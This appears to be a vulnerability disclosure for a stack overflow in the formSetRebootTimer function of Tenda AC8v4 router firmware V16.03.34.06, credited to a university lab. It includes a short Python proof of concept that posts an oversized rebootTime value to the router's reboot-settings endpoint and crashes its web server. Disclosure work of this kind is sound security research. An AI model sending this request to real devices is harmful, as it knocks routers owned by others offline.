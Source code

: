 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3518.html

## Affected version

AC8v4 V16.03.34.06
url = "http://192.168.1.100:80/goform/SetSysAutoRebbotCfg

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `formSetRebootTimer` function. The `__s1_00` variable receives the `rebootTime` parameter from a POST request and is later assigned to the function `FUN_004a8838(__s1_00);`. However, since the user can control the input of `rebootTime`, the statement `iVar1 = sscanf(param_1,"%d:%d",&local_18,&local_14);` can cause a buffer overflow. The user-provided  `rebootTime` can exceed the capacity of the `local_18, local_14` array, triggering this security vulnerability.

![reboottimer.png](images/reboottimer.png)

![4a8838.png](images/4a8838.png)

## POC

```python
import requests

url = "http://192.168.1.100:80/goform/SetSysAutoRebbotCfg"

bindnum_value = "aaaaa"
list_value = "00:7777777777Y7kkkXkkkk77777777777777777778aa" 

data = {
    "aotEn": bindnum_value,
    "rebootTime": list_value
}

response = requests.post(url, data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```

![image-reboot_httpd.png](images/reboot_httpd.png)
![image-python_crash.png](images/reboot_python_crash.png)

# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.